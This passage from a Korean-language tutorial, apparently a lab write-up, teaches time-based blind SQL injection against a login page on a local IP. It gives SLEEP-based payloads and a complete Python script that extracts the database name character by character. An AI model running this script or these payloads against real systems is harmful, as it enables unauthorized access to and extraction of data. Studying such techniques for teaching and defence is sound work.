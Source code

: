 결과는 다음과 같다.

	USER : root@localhost

## **데이터베이스 이름 확인**

참과 거짓의 결과 정보를 이용하여 데이터베이스의 이름을 획득해보자.

다음과 같이 데이터베이스의 문자열 길이를 확인할 것이고, URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

SLEEP을 이용하기 때문에 참이면 일정 시간동안 딜레이가 걸릴 것이다.

```py
QUERY       = requests.utils.quote(f'\' OR IF(LENGTH(DATABASE())={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

쿼리의 결과가 참일 경우 데이터베이스의 이름의 문자열 길이를 알 수 있다.

```py
REQUEST     = requests.get(url=URL)
if END_TIME - START_TIME > SLEEP_TIME:
    RESULT_LENGTH = i
    break
```

데이터베이스의 이름을 확인하기 위해 SUBSTR로 한글자씩 맞춰나갈 것이며, 대소문자를 구분하기 위해 ASCII함수를 사용하자.

```py
QUERY       = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR(DATABASE(),{i+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

마찬가지로 쿼리의 결과가 참일 경우 데이터베이스의 이름의 문자열 일부를 알 수 있다.

다음의 Full Code로 데이터베이스의 이름을 확인해보자.

```py
import requests
import string
import time

TARGET          = 'http://192.168.0.58/index.php'
SLEEP_TIME      = 0.5
RESULT          = ''
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'\' OR IF(LENGTH(DATABASE())={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    START_TIME  = time.time()
    REQUEST     = requests.get(url=URL)
    END_TIME    = time.time()
    if END_TIME - START_TIME > SLEEP_TIME:
        RESULT_LENGTH = i
        break
print(f'DATABASE LENGTH : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    for s in string.printable.strip():
        QUERY       = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR(DATABASE(),{i+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        START_TIME  = time.time()
        REQUEST     = requests.get(url=URL)
        END_TIME    = time.time()
        if END_TIME - START_TIME > SLEEP_TIME: RESULT += s
print(f'DATABASE : {RESULT}')
```